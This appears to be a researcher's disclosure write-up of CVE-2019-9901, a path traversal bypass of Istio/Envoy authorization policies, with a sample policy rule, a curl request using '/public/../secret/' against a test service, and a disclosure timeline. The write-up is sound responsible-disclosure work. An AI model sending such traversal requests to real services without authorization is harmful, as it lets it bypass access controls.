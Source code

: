 # CVE-2019-9901 - Istio/Envoy Path traversal

TLDR; I found a path traversal bug in Istio's authorization policy enforcement.

## Discovery

About a year ago, as a part of a customer project, I started looking at Istio, and I really liked what I saw.
In fact I liked it so much that I decided to submit a <a href="https://vimeo.com/289667003">talk</a> for it for <a href="https://javazone.no">JavaZone</a> in 2018.
My favorite thing about Istio was, and still is, the mutualTLS authentication and authorization with workload bound certificates with SPIFFE identities.

Istio has evolved a lot from the first version 0.5.0, which I initially looked at, to the 1.1 release. The 0.5.0 authorization policies came in the form of *deniers*, which sounded a lot like blacklists. The later versions have moved to a positive security model (whitelist), where you can specify which workloads (and/or end-users based on JWT) should be allowed to access certain services. Further restrictions can be specified using a set of protocol based authorization rules. I really like the coarse-grained workload authorization, but I'm not too fond of the protocol based rules. We have seen different parsers interpreting the same thing in different ways way too many times. Some perfect examples of this, are in Orange Tsai brilliant research presented in <a href="Orange Tsai">A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!</a>. I mentioned my concerns about this in some later versions of my Istio talk, but never actually tested it... untill now...

## The bug

I set up a simple project with a web server and deployed it on Kubernetes. The web application had two endpoints `/public/` and `/secret/`. I added an authorization policy which tried to grant access to anything below `/public/`:

```
  rules:
  - services: ["backend.fishy.svc.cluster.local"]
    methods: ["GET"]
    paths: ["/public/*"]
```

I then used standard **path traversal** from curl:

```
curl -vvvv --path-as-is  "http://backend.fishy.svc.cluster.local:8081/public/../secret/"
```
And was able to reach `/secret/`.

## Timeline

The istio team was very friendly and responsive and kept me up to date on the progress.

* 2019-02-18: I send the intial bug report sent to the istio-security-vulnerabilities mailbox
* 2019-02-18: Istio Team acknowledges receiving the report
* 2019-02-20: Istio Team reports the bug has been triaged and work started
* 2019-02-27: I ask some follow up questions to the mail received on the 20th
* 2019-02-27: Istio Team replies to questions
* 2019-03-28: Istio Team updates me about working with the Envoy team to fix this and plan to release this on April 2nd. The envoy issue was created on the 20th of February: https://github.com/envoyproxy/envoy/issues/6008
* 2019-04-01: Istio Team sends an new update setting April 5th as a new target date
* 2019-04-05: The security fix is published in Istio version 1.1.2/1.0.7 and Envoy version 1.9.1. The Envoy bug is assigned CVE-2019-9901

